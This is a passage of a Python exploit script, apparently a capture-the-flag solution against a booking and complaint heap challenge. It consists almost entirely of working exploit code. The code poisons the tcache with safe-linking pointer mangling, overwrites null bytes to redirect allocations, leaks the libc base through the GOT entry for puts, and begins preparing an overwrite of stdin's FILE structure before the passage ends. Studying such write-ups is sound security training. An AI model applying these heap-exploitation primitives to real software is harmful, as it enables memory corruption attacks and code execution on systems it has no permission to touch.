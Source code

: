 ```py
        new_pnt = pnt & 0xffffffffffffff00
        new_pos_rel_id4 = prot_ptr(target, new_pnt)

        # check if the chunk will be allocated in the complaint chunk
        if new_pos_rel_id4 & 0xfff > 0xa90:
            raise RuntimeError("chunk placement wrong (leak_libc) - restarting")
        
        target_write = self.heap_base + 0x810
        self.cc_dummy_id1_addr = self.heap_base + 0x338
        self.cc_dummy_id2_addr = self.heap_base + 0x448

        self.cc_id3_addr = self.heap_base + 0x898
        self.cc_id4_addr = self.heap_base + 0x9a8

        # set up the metadata for tcache so it doesnt get angry when freeing
        null_byte(cc_id4, 344)
        offset = (new_pos_rel_id4 - 8) - self.cc_id3_addr + 1

        for i in range(7):
            null_byte(cc_id3, offset+i)

        add_booking(b"A"*8, b"CA128")

        # gotta set up the tcache pointer to point to the new chunk that then points to GOT
        pad = new_pos_rel_id4 - self.cc_id4_addr
        dummy_new_pos = self.cc_dummy_id2_addr + pad
        edit_complaint(cc_id4, b"A"*pad + p64(prot_ptr(new_pos_rel_id4, dummy_new_pos)))

        null_byte(cc_id3, (new_pos_rel_id4+7)-self.cc_id3_addr)
        null_byte(cc_id3, (new_pos_rel_id4+6)-self.cc_id3_addr)

        edit_complaint(self.cc_dummy_id2, b"A"*pad + p64(prot_ptr(dummy_new_pos, target_write)))

        null_byte(self.cc_dummy_id1, (dummy_new_pos+7)-self.cc_dummy_id1_addr)
        null_byte(self.cc_dummy_id1, (dummy_new_pos+6)-self.cc_dummy_id1_addr)

        add_booking(b"A"*8, b"CC123", p64(self.elf.got['puts']))

        libc.address = u64(booking_info(self.b_id)[2]) - self.libc.sym.puts

        if libc.address & 0xfff != 0:
            raise RuntimeError("libc address misaligned (leak_libc) - restarting")

    def overwrite_stdin(self):
        # set up heap for new overwrite
        cc_id5 = customer_complaint(self.ref, b'SHIT')
        cc_id6 = customer_complaint(self.ref, b'SHIT')

        add_booking(b"A"*8, b"A"*8)


        target = self.heap_base+0xdd0
        pnt = prot_ptr(target, self.heap_base + 0xdb0)
        if pnt & 0xf:
            raise RuntimeError("pnt misaligned (overwrite_stdin) - restarting")
        
        new_pnt = pnt & 0xffffffffffffff00
        new_pos_rel_id6 = prot_ptr(target, new_pnt)
        # again, make sure the new chunk is malloced into the complaint
        if new_pos_rel_id6 & 0xfff > 0xd40:
            raise RuntimeError("chunk placement wrong (overwrite_stdin) - restarting")

        wide_data = libc.address + 2111456
```